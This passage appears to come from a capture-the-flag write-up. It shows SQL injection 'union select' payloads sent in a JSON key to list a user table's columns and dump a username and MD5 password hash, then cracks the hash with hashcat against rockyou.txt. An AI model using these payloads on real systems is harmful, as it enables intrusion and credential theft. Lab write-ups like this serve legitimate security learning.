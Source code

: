 
Do the same thing to get all columns for the user table
```sql
{"asdf' union select 1,(select group_concat(column_name separator '|') from information_schema.columns where table_name='user'),3-- -":"1"}
```
```sql
id|username|password
```

And finally dump the data we need
```sql
{"asdf' union select 1,(select group_concat(concat(username,'|',password) separator ';') from user),3-- -":"1"}
```
```sql
james_mason|fc895d4eddc2fc12f995e18c865cf273
```

## Hash Cracking 
Thats 32 hex so possibly MD5
```bash
printf 'fc895d4eddc2fc12f995e18c865cf273'|wc -c
32
```

Crackstation does it too, but here's how to do it with hashcat
```bash
hashcat -m 0 fc895d4eddc2fc12f995e18c865cf273 /usr/share/wordlists/rockyou.txt                                     1 ⨯
hashcat (v6.2.5) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: pthread-0x000, 2914/5893 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
```